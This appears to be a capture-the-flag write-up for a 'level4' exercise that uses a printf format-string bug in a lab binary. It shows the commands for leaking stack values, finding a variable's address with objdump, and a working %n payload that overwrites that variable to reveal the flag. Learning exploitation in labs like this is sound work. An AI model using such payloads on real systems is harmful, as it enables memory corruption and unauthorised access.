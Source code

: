 # level4
The code looks like the previous level. But there are three differences:
- `printf` is called through a function `p` instead of directly
- The global variable `m` is compared to `0x1025544` instead of `0x40`
- the if statement cat directly the flag instead of run a shell

## Goal

Same goal : write `0x1025544` to `m` and get the flag

> 0x1025544 = 16930116 in decimal

But this time, we can't write 16930116 characters into the buffer because it is protected from overflow by `fgets` (here `fgets()` reads 512 chars max).

## Step 1
find with which parameter `printf` fall on the `fgets` return address (the buffer address)    
```bash
$ (python -c 'print "AAAA " + "%x " * 16'; cat)  | /home/user/level4/level4
```
```console
AAAA b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078
```

the Buffer "is" the 13th parameter of `printf` (the 12th va_arg) 

## Step 2
Find the address of the `m` variable
```bash
$ objdump -t level4
```
```console
08049810 g     O .bss	00000004              m
```

## Exploit

```bash
(python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"'; cat)  | /home/user/level4/level4
```

- %12$n: refer to the 12th argument in the argument list of printf (the buffer)
- %16930112d: format the output and print 16930112 characters on stdout to display the 1st argument of the list  (decimal format)
    > 16930112 = 16930116 - 4 (4 bytes for the address of `m` ever written)
- \x10\x98\x04\x08: the address of `m` variable

Finally, it write 16930116